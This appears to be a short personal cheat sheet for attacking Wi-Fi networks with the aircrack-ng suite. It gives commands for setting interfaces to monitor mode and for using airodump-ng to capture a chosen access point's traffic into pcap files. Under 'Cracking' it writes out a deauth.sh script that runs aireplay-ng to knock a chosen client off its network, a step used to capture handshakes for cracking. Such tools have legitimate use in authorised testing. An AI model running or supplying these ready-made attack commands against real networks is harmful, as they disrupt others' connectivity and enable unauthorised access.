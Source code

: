 ## General

### AP `a`
```bash
1 apdo
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
12 power rate
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

### Channel by BSSID
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --band abg --bssid CHANGEME wlan1
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format pcap --write CHANGEME \
            --channel CHANGEME --bssid CHANGEME wlan1
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel "${1}"

aireplay-ng -0 99 -D -a "${2}" -c "${3}" wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
